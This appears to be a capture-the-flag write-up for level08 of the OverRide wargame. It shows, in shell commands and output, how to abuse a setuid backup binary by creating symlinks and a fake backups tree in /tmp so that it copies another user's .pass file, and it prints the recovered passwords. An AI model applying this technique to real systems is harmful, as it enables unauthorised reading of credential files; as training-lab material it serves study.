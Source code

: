 level08@OverRide:~$ ./level08 "../../../../home/users/level09/.pass"
ERROR: Failed to open ./backups/../../../../home/users/level09/.pass


- opens backups/.log to write logs
- opens target file to read content with av[1]
- opens target file to write flag with strncat("./backups", av[1], strlen(av[1]))

strncat 

buffer 100

"./backups" (9)

+ 

"../../../../home/users/level09/.pass" (36)

"../../../../../../../../../../../../../../../../../../../../../../../../../../../../home/users/level09/.pass"


### Tries


We can read a `.pass` file 
```
level08@OverRide:~$ ./level08 ".pass"
level08@OverRide:~$ ls -la backups/
total 8
drwxrwx---+ 1 level09 users    80 Nov 22 18:06 .
dr-xr-x---+ 1 level08 level08 100 Oct 19  2016 ..
-rwxrwx---+ 1 level09 users    66 Nov 22 18:08 .log
-r--r-----+ 1 level09 users    41 Nov 22 18:06 .pass
level08@OverRide:~$ cat backups/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```


1) create symlink of the level08 binary to /tmp
`ln -s /home/users/level08/level08 /tmp/level08`

```
level08@OverRide:/tmp$ ls -la
total 0
drwxrwxrwt 4 root    root    120 Nov 23 08:49 .
drwxr-xr-x 1 root    root    220 Nov 23 08:31 ..
drwxrwxrwx 3 level08 level08 100 Nov 23 08:45 backups
drwxrwxr-x 3 level08 level08  60 Nov 23 08:33 home
lrwxrwxrwx 1 level08 level08  27 Nov 23 08:48 level08 -> /home/users/level08/level08
```


2) create a symlink for the /home folder to /tmp/home
`ln -s /home /tmp/home`

This is used to bypass the error created by the forced concatenation of `./backups/` + our path `/home/users/level09/.pass`
```
level08@OverRide:/tmp$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
This symlink will help to remove the `/` preceding `home`   

3) create a fake folder tree in /tmp/backup to mimic to the behaviour of the binary backup function
```
mkdir /tmp/backups /tmp/backups/home /tmp/backups/home/users /tmp/backups/home/users/level09
```

4) run level08 binary in /tmp
```
cd /tmp
./level08
```

5) cat the flag store in our fake backup directory
```
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```